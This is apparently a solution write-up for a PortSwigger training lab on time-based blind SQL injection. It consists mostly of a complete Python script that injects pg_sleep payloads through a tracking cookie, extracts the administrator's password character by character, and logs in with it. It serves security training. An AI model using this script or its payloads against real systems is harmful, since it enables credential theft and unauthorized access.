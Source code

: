 ```yaml
---
title: Blind SQL injection with time delays and information retrieval
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval/">
12. Blind SQL injection with time delays and information retrieval</a>

Similar lab to the previous blind SQL injection password disclosure labs. This
web application doesn't provide error messages, stack traces, etc. when invalid
SQL queries are executed. We can, however, detect what type of SQL database is
being used and whether or not the query is injectable by using a time delay.

To confirm that SQL injection exists, we use a sleep function specific to
PostgreSQL. If the database were Microsoft, Oracle, etc. we can always detect
what type of SQL database based on the syntax of the sleep command.

Like the previous labs, we execute a binary search using time to detect where
our character is in the character array. If we guess the character of the
password correctly, or if we guess its direction correctly, we delay time by 3
seconds and detect that. Otherwise, the response will return immediately.

Solution:

```python
# usage:
# python3 12.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import re
import string
import time
from argparse import ArgumentParser
from typing import Optional

import requests

ALPHANUM = list(string.digits + string.ascii_lowercase)
http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def search(self, i: int) -> Optional[str]:
        s = requests.Session()
        req = s.get(f"{self.url}/")
        cookies = s.cookies.get_dict()
        tracking_id = cookies["TrackingId"]

        l, r = 0, len(ALPHANUM) - 1
        while l <= r:
            m = (l + r) // 2

            cookies["TrackingId"] = (
                f"{tracking_id}'%3bSELECT+CASE+WHEN+SUBSTRING(password,{i},1)='{ALPHANUM[m]}'+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username%3d'administrator'--"
            )
            s = requests.Session()
            t0 = time.time()
            s.get(f"{self.url}/", cookies=cookies)
            t1 = time.time()
            if t1 - t0 >= 3:
                return ALPHANUM[m]

            cookies["TrackingId"] = (
                f"{tracking_id}'%3bSELECT+CASE+WHEN+SUBSTRING(password,{i},1)<'{ALPHANUM[m]}'+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username%3d'administrator'--"
            )
            s = requests.Session()
            t0 = time.time()
            s.get(f"{self.url}/", cookies=cookies)
            t1 = time.time()
            if t1 - t0 >= 3:
                r = m - 1
            else:
                l = m + 1

        return

    def solve(self) -> None:
        password = []
        i = 1
        while True:
            ch = self.search(i)
            if not ch:
                break
            else:
                password.append(ch)
            i += 1

        password = "".join(password)
        print(f"Password found! -- {password}")
        self.login("administrator", password)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
